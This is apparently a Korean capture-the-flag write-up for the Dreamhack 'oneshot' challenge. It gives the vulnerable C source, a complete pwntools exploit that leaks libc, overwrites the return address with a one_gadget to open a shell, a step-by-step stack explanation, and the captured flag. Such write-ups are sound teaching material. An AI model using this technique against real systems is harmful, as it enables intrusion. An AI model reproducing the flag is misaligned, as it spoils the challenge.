



# S4 · oneshot

### 1. 문제 확인

<p align="center">
  
</p>

### 2. 코드

```c
// gcc -o oneshot oneshot.c -fno-stack-protector -fPIC -pie
int main(int argc, char *argv[]) {
  char msg[16];
  size_t check = 0;

  initialize();

  printf("stdout: %p\n", stdout);   // ① libc 주소 leak

  printf("MSG: ");
  read(0, msg, 46);                 // ② 16바이트 버퍼에 46바이트 입력 → 오버플로

  if(check > 0) {                   // ③ check가 0이 아니면 즉시 종료
    exit(0);
  }

  printf("MSG: %s\n", msg);
  memset(msg, 0, sizeof(msg));
  return 0;                         // ④ 여기 리턴에서 덮인 주소로 점프
}
```

- **②** `read(0, msg, 46)` — `msg`는 16바이트인데 46바이트를 받으므로 **스택 오버플로**. 임의 쓰기나 ROP 공간은 없고, 넘치는 양이 리턴주소까지 딱 닿는다.
- **③** `if(check > 0) exit(0)` — 오버플로가 `check`도 덮기 때문에, 값이 0이 아니게 되면 리턴 전에 종료된다.
- 보호기법: No canary(`-fno-stack-protector`), PIE(`-fPIC -pie`). 그래서 리턴주소 공격이 가능하되 주소는 전부 랜덤이라 leak이 필요하다.

### 3. 익스플로잇 코드

<p align="center">
  
</p>

```python
#!/usr/bin/env python3
from pwn import *

p = remote("host3.dreamhack.games", 23222)
e = ELF("./oneshot")
libc = ELF("./libc.so.6")

# [1] stdout leak → libc base
p.recvuntil(b"stdout: ")
stdout = int(p.recvline(), 16)
libc_base = stdout - libc.symbols["_IO_2_1_stdout_"]

# [2] one_gadget 주소 계산
og = [0x45216, 0x4526a, 0xf02a4, 0xf1147]
og = og[0] + libc_base

# [3] return address partial overwrite → one_gadget
payload  = b"\x00" * 0x20
payload += b"A" * 8
payload += p64(og)[:6]
p.sendafter(b"MSG: ", payload)
p.recvline()

p.interactive()
```

> `oneshot`, `libc.so.6`은 실행 폴더에 있어야 한다. 셸이 안 열리면 `og[0]` → `og[1]`… 로 constraints 맞는 one_gadget으로 교체한다.

아래는 위 코드를 [1]~[3] 순서로 하나씩 본 것이다.

### 4. [1] libc leak — stdout으로 base 역산

```python
p.recvuntil(b"stdout: ")
stdout = int(p.recvline(), 16)
libc_base = stdout - libc.symbols["_IO_2_1_stdout_"]
```

`printf("stdout: %p\n", stdout)`이 stdout의 런타임 주소를 출력한다. stdout은 libc 안의 `_IO_2_1_stdout_`이고 libc 파일 내 offset은 고정이라, 출력된 주소에서 base를 거꾸로 구한다. PIE·ASLR로 base는 매 실행마다 바뀌므로 런타임에 받아야 한다. leak 수단은 이 출력 하나뿐이다.

### 5. [2] one_gadget — 주소 하나로 셸

```python
og = [0x45216, 0x4526a, 0xf02a4, 0xf1147]   # one_gadget ./libc.so.6
og = og[0] + libc_base
```

리턴주소에 쓸 수 있는 건 하위 6바이트, 즉 주소 한 개뿐이라 ROP 체인을 쌓을 공간이 없다. 그래서 그 한 주소로 바로 셸이 열려야 하고, 인자 세팅 없이 혼자 `execve("/bin/sh")`를 실행하는 one_gadget을 쓴다.

하위 6바이트만 덮어도 주소 전달엔 문제없다. x86-64 유저 영역 주소는 상위 2바이트가 항상 `0x0000`이라, 안 덮이는 그 2바이트가 이미 0이기 때문이다. 후보마다 호출 시점 스택 조건(constraints)이 있어 맞는 것을 골라 쓴다.

### 6. [3] payload — 스택 구조대로 채우기

```python
payload  = b"\x00" * 0x20     # msg(16) + 패딩(8) + check(8) → check = 0 유지
payload += b"A" * 8           # saved rbp (영향 없음)
payload += p64(og)[:6]        # return address 하위 6바이트 = one_gadget
```

`msg`는 `rbp-0x20`에서 시작한다(`lea rax, [rbp-0x20]`). `read`가 거기서 46바이트를 쓰면 이렇게 넘친다.

```
rbp-0x20 ──┐
  msg(16)  │
  패딩(8)   │  ← 이 구간이 0x20 = 32바이트
  check(8) │
rbp ───────┘
  saved rbp(8)  ┐
  return addr   │ ← 여기로 넘어간 게 14바이트
```

- `\x00 * 0x20` — 앞 `0x20`(32)바이트가 `msg`+패딩+`check`를 채운다. 이 중 `check`(24~31번째 바이트)는 `if(check > 0) exit(0)` 때문에 반드시 0이어야 하므로 통째로 널로 둔다. 앞 24바이트(msg+패딩)는 값이 무엇이든 상관없다.
- `A * 8` — saved rbp 자리. 리턴 후 안 쓰이므로 아무 값.
- `p64(og)[:6]` — `46 - 0x20 = 14`바이트 중 뒤 6바이트가 리턴주소에 들어간다. one_gadget 주소의 하위 6바이트다.

main이 `return`하면 덮인 리턴주소(one_gadget)로 점프해 `execve("/bin/sh")`가 실행된다.

### 7. 실행 결과

stdout leak으로 libc base를 구하고, 리턴주소 하위 6바이트를 one_gadget으로 덮어 main 리턴에서 셸을 열고 `cat flag`로 FLAG를 획득한다.

<p align="center">
  
</p>

```text
DH{a6e74f669acffd69602b76c81c0516b2}
```
